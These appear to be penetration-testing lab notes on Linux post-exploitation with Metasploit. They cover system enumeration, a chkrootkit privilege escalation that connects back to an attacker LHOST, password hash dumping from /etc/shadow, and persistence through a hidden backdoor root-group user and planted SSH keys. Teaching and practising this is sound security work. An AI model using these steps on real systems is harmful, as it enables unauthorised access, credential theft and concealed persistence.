# b - Linux Post Exploitation

## <mark style="color:red;">Linux Post Exploitation Modules</mark>

* The MSF provides us with various post exploitation modules for both Windows and Linux.
* We can utilize these post exploitation modules to enumerate information about the Linux system we currently have access to:
  * Enumerate system configuration.
  * Enumerate environment variables.
  * Enumerate network configuration.
  * VM check.
  * Enumerate user history

### **Practical Demonstration**

{% code overflow="wrap" lineNumbers="true" %}
```bash
# we exploit the Samba (exploit/linux/samba/is_known_pipename) vuln to get initial access.
session -u 1 # we upgrade the session from cmd shell to meterpreter session.

# we can do some basic enumeration on the victim OS, using the native "shell" cmd, then "/bin/bash -i"
whoami
shell > cat /etc/passwd #Enumerate all of the users on the target system.
shell > groups root # Enumerate all of the users that are part of the root group
shell > cat /etc/*issue # Enumerate the distribution release version
shell > uname -r #Enumerate the kernel version
shell > uname -a #Enumerate information about the target system (OS, system name, architecture)
shell > ip a s # Enumerate every network interface
shell > netstat -antp  # list all services listening on open ports.
shell > ps aux  # Enumerate every system processes
shell > env # Enumerate every environment variables for the current user

#  some linux post exploitations modules
msf5 > use post/linux/gather/enum_configs #Gather all configurations files.
msf5 > use post/multi/gather/env #Print out the OS environment variables
msf5 > use post/linux/gather/enum_network #Gather network information from the target system
msf5 > use post/linux/gather/enum_protections #Check if the system has been hardened and how
msf5 > use post/linux/gather/enum_system #Gather system and user informations.
msf5 > use post/linux/gather/checkcontainer #Check if the system is running inside a container
msf5 > use post/linux/gather/checkvm #Check if the system is running inside a VM
msf5 > use post/linux/gather/enum_users_history #Gathers users history informations


    post/linux/gather/enum_configs
    post/multi/gather/env
    post/linux/gather/enum_network
    post/linux/gather/enum_protections
    post/linux/gather/enum_system
    post/linux/gather/checkcontainer
    post/linux/gather/checkvm
    post/linux/gather/enum_users_history
    post/multi/manage/system_session
    post/linux/manage/download_exec
```
{% endcode %}



## <mark style="color:red;">Linux Privilege Escalation: Exploiting A Vulnerable Program</mark>

* The privilege escalation techniques we can utilize will depend on the version of the Linux kernel running on the target system as well as the distribution release version.
* MSF offers very little in regards to Linux kernel exploit modules, however, in some cases, there may be an exploit module that can be utilized to exploit a vulnerable service or program in order to elevate our privileges.

### **Practical Demonstration**

{% code overflow="wrap" lineNumbers="true" %}
```bash
# for initial access we use the "auxiliary/scanner/ssh/ssh_login" module. providing the Username $ passwd provided by the LAB.

# upgrade to a meterpreter session.
# we want to upgrade our access to "root" user.
#Using the [ps aux] command, we can see a /bin/check-down script launched by root
#By looking into it, we see that it runs chkrootkit every 60sec (Used to detect rootkits on the system)
chkrootkit --help # Open the help page for chkrootkit
chkrootkit -V # Return the version of chkrootkit

# search chkrootkit
msf5 > use exploit/unix/local/chkrootkit # Exploit the chkrootkit service.
set CHKROOTKIT /bin/chkrootkit
set SESSIONS 2
set LHOST $kaliIP
exploit # we have root.
```
{% endcode %}



## <mark style="color:red;">Dumping Hashes With Hashdump</mark>

* We can dump Linux user hashes with the hashdump post exploitation module.
* Linux password hashes are stored in the /etc/shadow file and can only be accessed by the root user or a user with root privileges.
* The hashdump module can be used to dump the user account hashes from the /etc/shadow file and can also be used to unshadow the hashes for password cracking with John The Ripper.

### **Practical Demonstration**

{% code overflow="wrap" lineNumbers="true" %}
```bash
# we use the "exploit/samba/is_known_pipename" module to gain initial access.
# upgrade session to meterpreter.
# hashdump gives us error, so we have to load the module mannually.

search hashdump
msf5 > use post/linux/gather/hashdump #Dump the password hashes on Linux.
# when we cat the shadow and etc/passwd file contents from the [loot] db, we see the users including "root" has no password.


    post/multi/gather/ssh_creds
    post/multi/gather/docker_creds
    post/linux/gather/hashdump
    post/linux/gather/ecryptfs_creds
    post/linux/gather/enum_psk
    post/linux/gather/enum_xchat
    post/linux/gather/phpmyadmin_credsteal
    post/linux/gather/pptpd_chap_secrets
    post/linux/manage/sshkey_persistence
```
{% endcode %}



## <mark style="color:red;">Establishing Persistence On Linux</mark>

* Persistence consists of techniques that adversaries use to keep access to systems across restarts, changed credentials, and other interruptions that could cut off their access.
* Gaining an initial foothold is not enough, you need to setup and maintain persistent access to your targets.
* The persistence techniques we can utilize will depend on the target configuration.
* We can utilize carious post exploitation persistence modules to ensure that we always have access to the target system.

### **Practical Demonstration**

{% code overflow="wrap" lineNumbers="true" %}
```bash
# we use the same method as previous lab

# method 1
# Creating a backdoor user manually
shell > useradd -m <homeFolderLocation> <username> -s <shellLocation> #Create a user account
shell > passwd <username> #Set/change a password for the user
shell > usermod -aG <group> <username> #Add a user account to a group
shell > usermod -u <newID> <username> #Change the ID of a user account
# example
useradd -m ftp -s /bin/bash
passwd ftp # set password for the user.
usermod -aG root ftp # add the user to the root group.
usermod -u 115 ftp # modify the user ID to avoid detection.
# we can use the acct to authenticate via ssh.

# there are plenty of other techniques like: creating a persistence service, cronjob, adding an sshkey to the ssh dir within the user home directry.

# There are many MSF modules to establish persistence. List them with:

msf5 > search platform:linux persistence
# this module creates a public and private keypair, and will add the public key,
# into the home dir of all the users accts on the system, and would then provide,
# us with the private key which we can use to authenticate to any of the user acct,
# on the system without providing a password.
msf5 > use post.linux/manage/sshkey_persistence #This module allow to enable persistence using SSH
set CREATESSHFOLDER true # incase the victim does not have the folder created already.
set SESSION <ID>
exploit 

# we can cat the private key, save into a file, change the permissions to "chmod 0400 ssh_key"
# we can authenticat to the target via any user via ssh
ssh -i ssh_key root@$victim_IP  # using ssh key authentication to login ssh.
```
{% endcode %}



